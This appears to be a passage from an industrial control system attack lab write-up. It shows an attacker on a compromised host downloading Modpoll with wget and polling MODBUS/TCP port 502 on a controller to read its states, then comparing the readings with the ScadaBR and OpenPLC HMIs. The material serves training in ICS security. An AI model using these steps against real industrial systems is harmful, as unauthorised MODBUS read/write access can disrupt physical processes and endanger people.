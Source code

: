 # Command and Control

#### **Blending in with Normal Network Activity Using MODBUS/TCP (Port 502)**

The attacker uses a commonly used port (MODBUS/TCP:502) to bypass firewalls and detection systems, blending in with normal network activity. (MODBUS or HTTP(S), OPC, RDP, telnet,...) \[T0885 - <https://attack.mitre.org/techniques/T0885/> ]

The attacker uses the **MODBUS/TCP** protocol, which typically operates on port **502**, to establish Command and Control between the compromised machines. By utilizing this widely-used industrial protocol, the attacker avoids raising suspicion, as MODBUS traffic is considered normal within many industrial control system (ICS) environments.


****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe68s9l88LiLzW58oAIbExkM1PYLvscOAAqFAvHHp6tOLt51MaLQ8FPIz7tMdvKEHOW4l0nL_VB9IUBwj8AA8V_T4d31CiCoXBRMqdYOjUH6Dbb-vHvfuF0mTgx-oDDinR1c7jWYZGhh5tQT27915pN327E?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 12:** Network scanning in M2, discovery of M3 network and 502 MODBUS TCP port.

1. **Installing Modpoll on Machine M2 (Attack Machine):**

- The attacker installs the **Modpoll** tool on the compromised M2 to interact with MODBUS devices in the network.

- Modpoll is a command-line tool for polling MODBUS data, allowing the attacker to **read and write** data from MODBUS registers on the target machines.

```
# step 1 install modpoll in M2

wget https://www.modbusdriver.com/downloads/modpoll.zip

export PATH=modpoll/x86_64-linux-gnu:$PATH

```

2. **MODBUS Polling on M3 (System Controller) via MODBUS/TCP:**

- The attacker executes **Modpoll** to query the state of the system controllers on machine M3 using the MODBUS protocol over TCP (Port 502):

```
# step 1 checking machine/system controller states
# response can take some minutes
modpoll -m tcp -r 1 -c 4 -t 0 192.168.52.6 # the -c is the number of outputs you want to get, the response of this command can take some seconds to appear

```


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdulCra-JfynzhNl3cQL84b5hF-KSM-R9Rpvw0YXXjbZuVnY0Np9DSqu0n3gC8_t2p-sqYn3tMN04iHupeVMoOjh9XNQGdUbqBrcqd6oQCJJQwKG3jJoZF3lP5YbpphLmiewSJlu9VdX0I4iT-2GBEla9-x?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 13:** Response of MODBUS TCP port, controller states of systems in M3.

3. **Comparing Data with HMI Systems (ScadaBR and OpenPLC):**

- From the web interfaces of **ScadaBR** (http\://10.208.89.15:9090/ScadaBR/) and **OpenPLC** (http\://10.208.89.15:8080/monitoring), the attacker can see that they have the same information that authorized users would have about the machines' statuses.

- The attacker essentially mirrors what operators would see on their HMI (Human-Machine Interface), giving them full visibility into the operational state of the industrial control systems.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeLC8bPw3IoFnITDBK4Sn8iGF9yl1hOpoJymoFGglkc9cOz4h-MVLNfP4t2ucEE9GGSbH46LVc05i-2Jg_pMnI5B2Ud9WWvf1HRrbDj1ikRuQNAi8laqj1C9LUqMEDugh_zdkr_mUZtkWKhbYp5slwMt1g?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 14:** OpenPLC (right) and ScadaBR HMI (left).
